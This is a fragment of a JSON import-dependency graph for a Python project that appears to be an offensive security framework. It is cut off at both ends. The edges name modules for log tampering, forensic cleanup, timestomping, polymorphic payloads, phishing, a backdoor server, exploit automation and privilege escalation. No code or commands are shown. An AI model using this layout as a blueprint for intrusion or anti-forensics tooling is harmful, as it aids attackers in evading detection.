"relation": "resolved_imports", "source": "cli/commands/mcp_bridge.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/autosuggest.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "modules/module_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "modules/module_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "modules/module_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "modules/payload_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/recommendation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/exploration_view.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/command_chain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/dashboard_tui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/palette_overlay.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/sessions_browser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/timeline_browser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/graph_overlay.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/misc_migrated.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mobile_macos.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mobile_macos.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mobile_macos.py", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mobile_macos.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mobile_macos.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/mobile_macos.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/module_manager.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/module_manager.py", "target": "modules/module_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/module_manager.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/nethelpers.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/nethelpers.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/nethelpers.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/opsec_cleanup.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules/opsec_scorer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules/log_tamper.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules/forensic_cleaner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules/timestomper.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules/memory_cleaner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules/network_opsec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules/log_tamper.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/opsec_cleanup.py", "target": "modules/log_tamper.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/orchestration.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/orchestration.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/orchestration.py", "target": "cli/reasoning_stream.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_arsenal.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_arsenal.py", "target": "modules/dotnet_payload.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_arsenal.py", "target": "modules/staged_delivery.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_arsenal.py", "target": "modules/polymorphic_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_arsenal.py", "target": "modules/macos_payloads.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_arsenal.py", "target": "modules/linux_advanced_payloads.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_arsenal.py", "target": "modules/dotnet_payload.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_arsenal.py", "target": "modules/macos_payloads.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_arsenal.py", "target": "modules/linux_advanced_payloads.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_generation.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_generation.py", "target": "modules/payload_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/payload_generation.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist.py", "target": "modules/categories.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist_migrated.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist_migrated.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist_migrated.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist_migrated.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist_migrated.py", "target": "modules/traffic_morpher.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/persist_migrated.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/phishing_wizard.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/phishing_wizard.py", "target": "modules/phishing_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/phishing_wizard.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/phishing_wizard.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/phishing_wizard.py", "target": "modules/phishing_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/phishing_wizard.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pivoting.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pivoting.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pivoting.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/postexp.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/postexp.py", "target": "modules/categories.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/postexp.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/postexp_migrated.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/postexp_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/postexp_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/postexp_migrated.py", "target": "modules/yara_scanner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/privilege_escalation.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/privilege_escalation.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/purple_team.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/purple_team.py", "target": "modules/auto_purple.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/purple_team.py", "target": "modules/auto_purple.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/purple_team.py", "target": "modules/auto_purple.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/purple_team.py", "target": "modules/auto_purple.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/purple_team.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/purple_team.py", "target": "cli/purple_tui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/rich_tui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/dashboard_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/exploit_recommender.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/exploit_recommender.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/ai_exploit_chain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/pwn.py", "target": "modules/enrich.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon.py", "target": "cli/exploit_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon.py", "target": "cli/lazynmap_post.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon.py", "target": "modules/intelligence_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon_migrated.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon_migrated.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon_migrated.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon_migrated.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon_migrated.py", "target": "cli/surface_tui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon_migrated.py", "target": "cli/surface_tui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon_migrated.py", "target": "cli/surface_tui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/recon_migrated.py", "target": "cli/surface_tui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/redteam_gym.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/redteam_gym.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/redteam_gym.py", "target": "modules/redteam_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/redteam_gym.py", "target": "modules/redteam_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/redteam_gym.py", "target": "modules/redteam_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/redteam_gym.py", "target": "modules/redteam_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/redteam_gym.py", "target": "modules/redteam_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/redteam_gym.py", "target": "modules/redteam_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/redteam_gym.py", "target": "modules/redteam_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/resource_scripting.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/resource_scripting.py", "target": "modules/resource_script.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/resource_scripting.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/scan.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/scan.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/scan_migrated.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/scan_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/scan_migrated.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "modules/opsec_scorer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "core/credential_vault.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "core/credential_vault.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "core/credential_vault.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "modules/hash_cracker.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "modules/opsec_scorer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "modules/hash_cracker.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/security.py", "target": "modules/opsec_scorer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/aliases.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/autosuggest.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/show.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/module_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/module_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/module_registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/payload_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/session_resumer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/config_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/chain_mode.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/pipeline_engine.py"}, {"confidence": 